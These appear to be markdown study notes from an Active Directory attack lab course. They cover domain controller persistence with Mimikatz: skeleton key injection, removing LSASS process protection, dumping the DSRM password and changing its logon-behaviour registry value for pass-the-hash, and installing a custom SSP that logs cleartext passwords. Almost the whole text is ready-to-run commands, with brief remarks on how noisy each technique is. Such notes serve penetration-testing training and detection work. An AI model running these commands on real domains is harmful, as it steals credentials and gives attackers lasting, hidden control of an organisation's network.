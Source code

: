 - #### ***Use the below command to inject a skeleton key (password would be mimikatz) on a DC of choice. DA privs required***
`Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
- #### ***Now, its possible to access any machine with a valid username and password as mimikatz***
`Enter-PSSession -ComputerName dcorp-dc -credential dcorp\Administrator`
***not opsec safe, do not use on real engagements, only for testing detection***
(known to cause issues with ADCS)
- #### ***In case lsass is running as a protected access, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC***
It would be very noisy in logs - Service installation (Kernel mode driver)
```cmd
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
# **Persistence - DSRM**
There is a local admin on every DC called "Administrator" whose password is the DSRM (Directory Services Restore Mode) password. DSRM password (SafeModePassword) is required when a server is promoted to DC and its rarely changed. After altering the configuration on the DC, it is possible to pass the NTLM hash of the user to access the DC
- #### ***Dump DRSM password (needs DA privs)***
`Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dcorp-dc`
- #### ***Compare the Administrator hash with the Administrator hash of the below command***
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc`
(First one is the DSRM local administrator)
Since it is the local administrator of the DC, we can pass the hash to authenticate. But the Logon Behaviour for the DSRM account needs to be changed before we can use its hash
***NOISY - because it changes registry, easy to detect***
`Enter-PSSession -ComputerName dcorp-dc`
`New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
- #### ***Use below command to pass the hash***
`Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:<NTLMhash> /run:powershell.exe"'` `ls \\dcorp-dc\C$`
# **Learning Objective 11**
[[Learning Objective 11]]
# **Persistence - Custom SSP**
SSP (Security Support Provider) is a DLL which provides ways for an application to obtain an authenticated connection. SSP Packages by MS: NTLM, Kerberos, Wdigest, CredSSP
Mimikatz provides a custom SSP - mimilib.dll, that logs local logons, service account and machine account passwords in clear text on the target server
- #### ***1 of 2 ways, drop the mimilib.dll to system32 and add mimilib.dll to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages***
```powershell
$packages = Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
- #### ***2 of 2 ways, using mimikatz to inject into lsass (not super stable with Server 2019 and Server 2022 but still usable)***
`Invoke-Mimikatz -Command '"misc::memssp"'`
(all local logons on the DC are logged to `C:\Windows\System32\mimilsa.log`)